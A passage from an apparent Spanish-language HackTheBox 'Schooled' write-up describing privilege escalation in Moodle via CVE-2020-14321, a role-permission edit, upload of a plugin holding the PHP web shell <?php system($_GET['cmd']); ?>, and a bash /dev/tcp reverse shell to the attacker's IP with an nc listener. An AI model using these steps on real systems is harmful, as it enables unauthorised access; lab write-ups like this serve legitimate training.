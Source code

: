 ```phillips_manuel@staff.schooled.htb``` El nuestro era simplemente: **student.schooled.htb**

---------------------------

# Part 3: Escalada a manager

Utilizamos todo el rato este [exploit](https://github.com/HoangKien1020/CVE-2020-14321)

No sabemos quien es el manager, pero tenemos un listado de usaurios y la parte de ver usaurios:    
```http://moodle.schooled.htb/moodle/user/profile.php?id=10``` -> cambiando el id podemos viajar entre usuarios. El 1 correspondiente a 1 no nos lo deja ver.
Se supone que es el del manager.   
En ```http://schooled.htb/teachers.html``` dice que es manager asi que es está a quien hay que secuestrarle la sesión.
En el exploit mencionan la ruta ```/enrol/manual/ajax.php``` La ruta nos dice que fatla el parametro id.

En el video del repositorio hablan de en cursos, (en nuestro caso Matematicas) en la seccion de participantes, darle a **Enroll user** y escoger a Lianne, luego
interceptar la peticion y cambiar estos parametros -> userlist de 25 a 24 (el id de nuestro Michael) y en role to assign 1, de administrador. Es decir, le 
hemos dado el privilegio de administrador a nuestro profesor de cierta manera.

![](/assets/images/htb-schooled/schooled7.PNG)
![](/assets/images/htb-schooled/schooled8.PNG)

Una vez hecho esto, la lista permanece intacta pero si añadimos otra vez a Lianne (sin cambiar nada) y nos  metemos en su perfil, desde la lista, nos saldrá la 
opción de registranos como ella.

Este ataque se llama MASS ASIGNMENT ATTACK y se suele dar muchas veces en apis, cuando hay una peticion para cambiar una cosa, puedes cambiar mas de las que 
estaba previsto.

En la seccion de Administracion, en Plugins no podemos subir nada.

![](/assets/images/htb-schooled/schooled9.PNG)

En la pagina del exploit de antes había una seccion que hablaba de permisos (payload to full permissions).  
Lo que hay que hacer es irse a Users -> Permissions -> define roles -> Manager -> edit   
  
![](/assets/images/htb-schooled/schooled10.PNG)

Ahi te salen todos los permisos, si le das a **save changes** interceptando la peticion y pones lo que sale en la web:  
```&return=manage&resettype=none&shortname=manager&name=&description=&archetype=manager&contextlevel10=0&n...```
manteniendo la sesskey, podras editar los plugins.

![](/assets/images/htb-schooled/schooled11.PNG)

Te pide un zip, pero el repo del exploit también te lo da.
Una vez subido, accedes a la ruta ```http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id```
(luego descomprimi el zip para ver que tenia y era el clasico backdoor en php ```<?php system($_GET['cmd']); ?>```)

![](/assets/images/htb-schooled/schooled12.PNG)

Y pones el comando para la reverse shell con los & urlencodeados a %26
```bash -c 'bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261'``` y netcat ```sudo nc -nlvp 443```

---------------------------

# Part 4: Accediendo al sistema
```